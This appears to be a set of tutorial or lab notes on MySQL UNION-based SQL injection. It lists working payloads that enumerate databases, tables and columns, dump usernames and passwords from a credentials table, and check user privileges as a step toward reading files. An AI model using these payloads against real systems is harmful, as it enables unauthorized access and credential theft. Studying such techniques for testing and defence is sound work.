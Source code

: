 In mysql, `mysql, information_schema,performance_schema` are default databases.

To find which database the field search use, use the `database()`.

```sql
cn' UNION select 1,database(),2,3-- -
```

**TABLES:**

To find all tables within a database, we can use the `TABLES` table in the `INFORMATION_SCHEMA` Database. This is used to find the tables names in the dev database. 

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

**COLUMNS:**

Now that we have the tables name, we can find the columns name for the table we are interested in. 

Column name can be found in the  `COLUMNS` table in the `INFORMATION_SCHEMA` database. 

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

**Data:**

Now that we have the Databases, the table, and the columns, we can retrieved the data. 

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

`dev` is the database, and `credentials` is the table name. 

### **2- Reading Files**

SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

The `FILE` privilege is specifically related to reading from and writing to the file system on the server where the MySQL database is running. 

1- Determine which use we are on the database

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Union Injection 
`cn' UNION SELECT 1, user(), 3, 4-- -`

or 
`cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -`

2- See if we are super user privilege
`SELECT super_priv FROM mysql.user`
